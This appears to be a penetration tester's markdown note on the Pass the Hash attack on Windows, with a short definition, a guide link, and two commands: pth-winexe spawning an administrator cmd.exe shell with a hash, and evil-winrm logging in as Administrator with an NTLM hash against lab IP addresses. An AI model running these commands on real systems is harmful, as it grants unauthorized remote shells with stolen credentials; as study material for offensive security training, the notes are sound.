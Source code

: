 ```yaml
---
tags:
  - Post-Exploitation
  - OperatingSystems
  - Windows
  - Concepts
  - Vulnerabilities
aliases:
  - PtH
  - Pass the Hash
---
```

A [Pass the Hash (PtH)](https://attack.mitre.org/techniques/T1550/002/) attack is a technique where an attacker uses a password hash instead of the plain text password for authentication. The attacker doesn't need to decrypt the hash to obtain a plaintext password. PtH attacks exploit the authentication protocol, as the password hash remains static for every session until the password is changed.
## Guides

1. [Practical Usage of NTLM Hashes - ropnop blog](https://blog.ropnop.com/practical-usage-of-ntlm-hashes/#long-live-pth)


## Methods

#### Pass the Hash Toolkit

See [[pth-toolkit]]

Use the full admin hash with `pth-winexe` to spawn a shell running as admin without needing to crack their password. 
Remember the full hash includes **both the LM and NTLM hash**, separated by a colon:

```
pth-winexe -U 'admin%hash' //10.10.181.132 cmd.exe
```

#### Evil-WinRM

See [[Evil-WinRM]]

```shell-session
evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```


